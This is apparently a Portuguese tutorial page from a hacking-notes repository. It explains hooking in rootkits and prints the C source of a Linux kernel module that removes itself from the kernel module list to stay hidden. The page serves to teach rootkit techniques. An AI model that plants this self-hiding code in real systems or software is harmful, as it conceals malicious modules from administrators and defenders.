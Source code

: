 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# Hooking
Um hook, é basicamente um gancho em alguma funcionalidade de algum software<br><br>
No caso dos rootkits, esse gancho seria geralmente para ocultar alguma coisa, um exemplo disso é o [lowlife](https://github.com/wtfflya/lowlife), que faz um hook pra se esconder na lista de drivers<br><br>

# lowlife
Veja a source do driver<br><br>
```c
/* 
 * lowlife.c 
 */

#include <linux/module.h>
#include "lowlife.h" /* -- header with low_drv_hide() -- */

static int __init low_init(void)
{
  low_drv_hide(); /* -- call low_drv_hide() -- */
  printk(KERN_INFO "driver lowlife is hidden.\n");
  return 0;
}

static void __exit low_exit(void)
{
  printk(KERN_INFO "driver unloaded.\n");
}

module_init(low_init);
module_exit(low_exit);

/* 
 * lowlife.h
 */

static struct list_head *drv_prev;
void low_drv_hide(void)
{
  drv_prev = THIS_MODULE->list.prev; /* --- load list previous --- */
  list_del(&THIS_MODULE->list); /* --- remove driver from drivers list --- */
}
```
<br>
Perceba que no lowlife.h, é carregada uma list, que seria a lista de drivers do sistema, e é feito um hook para o driver se auto-deletar da list<br><br>

Para entender melhor, veja esse vídeo https://youtu.be/3npnXeOnEAw

[pwn](../README.md)<br>
[home](../../README.md)
